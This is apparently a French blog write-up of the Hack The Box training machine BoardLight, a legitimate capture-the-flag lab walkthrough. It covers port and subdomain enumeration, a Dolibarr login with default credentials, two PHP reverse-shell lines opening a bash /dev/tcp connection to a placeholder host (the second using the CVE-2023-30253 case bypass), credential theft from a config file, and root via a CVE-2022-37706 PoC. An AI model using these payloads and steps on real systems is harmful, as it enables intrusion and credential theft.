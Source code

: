 ```yaml
---
date: 2024-09-27T22:53:03-05:00
# description: ""
image: "/images/HTB-BoardLight/BoardLight.png"
showTableOfContents: true
tags: ["HackTheBox"]
categories: ["Writeups"]
title: "HTB: BoardLight"
type: "post"
---
```


* Platforme: Hack The Box
* Lien: [BoardLight](https://app.hackthebox.com/machines/BoardLight)
* Niveau: Facile
* OS: Linux
---

BoardLight débute par la découverte d'un sous-domaine où se trouve une instance Dolibarr, à laquelle nous accédons en utilisant les informations d'identification par défaut. Grâce à un reverse shell PHP couplé à une technique de manipulation des majuscules, nous obtenons notre accès initial. Nous découvrons ensuite un fichier de configuration contenant des identifiants qui nous permettent de prendre le contrôle d'un autre compte. Enfin, nous obtenons les privilèges root en exploitant une vulnérabilité dans Enlightenment.

Address IP cible - `10.10.11.11`

## Balayage

```
./nmap_scan.sh 10.10.11.11 BoardLight
```

**Resultats**

```shell
Running detailed scan on open ports: 22,80
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-21 23:01 CDT
Nmap scan report for 10.10.11.11
Host is up (0.053s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)
|_  256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41
Service Info: Host: board.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 90.05 seconds
```

Notre scan révèle deux ports ouverts: SSH (22) et HTTP (80), nous ajoutons également `board.htb` au fichier `hosts` pour faciliter l'énumération.

## Enumération

À `http://board.htb/`, nous trouvons un site web pour une société de conseil en cybersécurité. Les boutons ne fonctionnent pas et il n'y a rien de vraiment marquant. 

![BoardLight website](/images/HTB-BoardLight/boardlight_website.png)

Nous essayons de trouver des répertoires cachés mais rien d'intéressant n'est trouvé.

```
gobuster dir -u http://board.htb/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```
![Directory bruteforcing](/images/HTB-BoardLight/gobuster_cmd.png)

Avec l'énumération des sous-domaines, nous trouvons un sous-domaine valide appelé `crm`.

```
ffuf -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --fc 404 -t 100 -u http://board.htb -H "Host: FUZZ.board.htb" -ic -fs 15949
```

![Subdomain enumeration](/images/HTB-BoardLight/ffuf_cmd.png)

Sur `http://crm.board.htb/` nous trouvons une page de connexion pour [Dolibarr](https://www.dolibarr.org/).

![Dolibarr ERP](/images/HTB-BoardLight/crm_board.png)

Une simple recherche Google nous permet de découvrir que les identifiants par défaut des instances Dolibarr sont `admin:admin` et en les utilisant nous accédons au tableau de bord.

![Dolibarr default credentials](/images/HTB-BoardLight/Dolibarr_default_creds.png)

![Dolibarr dashboard](/images/HTB-BoardLight/dolibarr_dashboard.png)

Bien que les systèmes CRM, CMS et ERP aient des objectifs différents, ils présentent souvent une vulnérabilité commune: une fois connecté, il est souvent possible d'obtenir un shell en exécutant un code malveillant.

Dans la section `Websites`, nous créons un nouveau site web.

![Dolibarr new website](/images/HTB-BoardLight/new_website.png)

Ensuite, créons une page.

![Dolibarr new page](/images/HTB-BoardLight/new_page.png)

Après la création de la page, il y a un bouton `Edit HTML Source` que nous pouvons utiliser pour ajouter notre code.

![Edit HTML source button](/images/HTB-BoardLight/edit_source.png)

Nous essayons un reverse shell php basique.

```php
<?php system('/bin/bash -c "/bin/bash -i >& /dev/tcp/IP_ADDRESS/PORT_NUMBER 0>&1"') ?>
```

![Dolibarr reverse shell](/images/HTB-BoardLight/rev_shell1.png)

Après avoir essayé de sauvegarder le code, nous obtenons une erreur, il semble que nous ne puissions pas utiliser `system`. A partir de là, nous pouvons soit trouver une autre méthode pour obtenir un shell, soit essayer de contourner la mesure de sécurité.

![Dolibarr php system error](/images/HTB-BoardLight/error_dolibarr.png)

## Accès Initial

En recherchant les vulnérabilités de Dolibarr, nous trouvons [cette page](https://www.vicarius.io/vsociety/posts/exploiting-rce-in-dolibarr-cve-2023-30253-30254) pour le `CVE-2023-30253` qui nous permet d'obtenir une exécution de code à distance en utilisant une manipulation de majuscules.

Réessayons avec le php en majuscules (PHP).

```php
<?PHP system('/bin/bash -c "/bin/bash -i >& /dev/tcp/IP_ADDRESS/PORT_NUMBER 0>&1"') ?>
```

![Dolibarr RCE](/images/HTB-BoardLight/Dolibar_rce.png)

Après avoir sauvegardé le code modifié, nous obtenons un shell sous le nom de `www-data`.

![foothold shell](/images/HTB-BoardLight/foothold.png)

En consultant le fichier `passwd`, nous remarquons la présence d'un utilisateur appelé `larissa` et, bien sûr, nous ne pouvons pas accéder à son répertoire personnel.

![larissa user](/images/HTB-BoardLight/larissa_user.png)

Grâce à linpeas, nous trouvons un répertoire de configuration à `/var/www/html/crm.board.htb/htdocs/conf/`.

![linpeas results](/images/HTB-BoardLight/linpeas_results.png)

![conf directory](/images/HTB-BoardLight/conf_directory.png)

En examinant le contenu de `conf.php`, nous obtenons des identifiants.

![dolibar conf credentials](/images/HTB-BoardLight/dolibarr_creds.png)

Avec le mot de passe trouvé, nous accédons au compte de larissa via SSH et nous trouvons le fichier `user.txt` dans son répertoire personnel.

![user flag](/images/HTB-BoardLight/user_flag.png)

## Elévation de Privilèges

Malheureusement, larissa n'est pas autorisée à exécuter sudo.

![sudo command](/images/HTB-BoardLight/sudo_cmd.png)

Exécutons à nouveau linpeas pour trouver des pistes d'escalade de privilèges. Nous trouvons un fichier appelé `enlightenment` appartenant à root avec le bit SUID activé et une référence au [CVE-2022-37706](https://nvd.nist.gov/vuln/detail/CVE-2022-37706).

![SUID on enlightenment binary](/images/HTB-BoardLight/suid-file.png)

[Ici](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/tree/main) nous trouvons un PoC pour la vulnérabilité. Après avoir exécuté le script (exploit.sh) sur la cible, nous obtenons les privilèges root et `root.txt` est accessible dans `/root`.

![root flag](/images/HTB-BoardLight/root_flag.png)

Merci d'avoir pris le temps de lire cet article!

